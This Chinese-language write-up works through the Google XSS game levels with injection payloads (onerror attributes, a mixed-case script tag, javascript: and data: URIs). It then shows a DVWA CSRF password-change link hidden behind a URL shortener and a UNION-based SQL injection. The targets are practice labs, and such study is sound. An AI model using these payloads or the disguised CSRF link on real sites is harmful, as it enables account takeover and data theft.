


## XSS

> XSS（Cross-Site Scripting）攻击是通过在网页中注入恶意脚本代码，当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行，从而盗取用户信息、篡改网页内容等。

测试： https://xss-game.appspot.com/

这个题目是一个逐渐变难的过程，前面用过的办法，后面都会被过滤掉。


Leve1:  没做任何转义

```html
<script>alert()</script>
```

Leve2: <script></script>标签都被过滤不能生效, 使用其他标签就可以绕过了。

**解法1:**插入一个带有无效 URL 的*图像标记*和一个将执行 JavaScript 警报的onerror属性

```html

```


Leve3:

```html
问题1:  会截取路由的第一个参数   
chooseTab(unescape(self.location.hash.substr(1)) || "1");

问题2:  通过用单引号关闭src属性来欺骗它，然后像上一关一样添加带有警报函数的onerror属性，并使用双斜杠注释“.jpg”部分
html += "";


解法1:使用：' onerror='alert();//


解法2:'/><sCript>alert();</scrIpt> 因为没有处理大小写还能用script
<sCript>alert();</scrIpt>.jpg' />
```

Leve4:

```html


使用: ');alert();// 相当于让这个函数结束

```

Leve5: confim.html中的值是取自路径信息上的

```html
<a href="{{ next }}">Next >></a> 这个是取自路径信息

使用javascript:alert() 修改路径，然后点击go，在点next
...signup?next=javascript:alert() 
```

Leve6: 下面显示的内容是路径信息，就需要对路径做变化

```js
代码里面显示https不让请求资源，把https换成http    
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
使用： data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF（Cross-Site Request Forgery）攻击是一种利用用户身份进行未授权操作的攻击方式。攻击者通过诱导用户访问一个恶意网站或点击恶意链接，利用用户在该网站上的会话（如Cookie）向目标网站发送请求，执行一些未授权的操作，如修改个人信息、转账等。

```shell
docker pull vulnerables/web-dvwa 
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80 
admin;password
```



这个是一个修改密码的例子


短链接

https://xiaomark.com/


我们修改密码的链接

http://localhost:80/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

变成了这个东西

https://sourl.cn/MQkq9G

### SQL注入

> SQL注入攻击是通过在Web表单输入或URL查询字符串中插入恶意SQL代码，当这些输入被服务器端的数据库查询处理时，攻击者可以执行任意SQL命令，从而获取数据库中的敏感信息、修改数据等。



输入 1' UNION SELECT 1,database() from information_schema.schemata#

提示

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```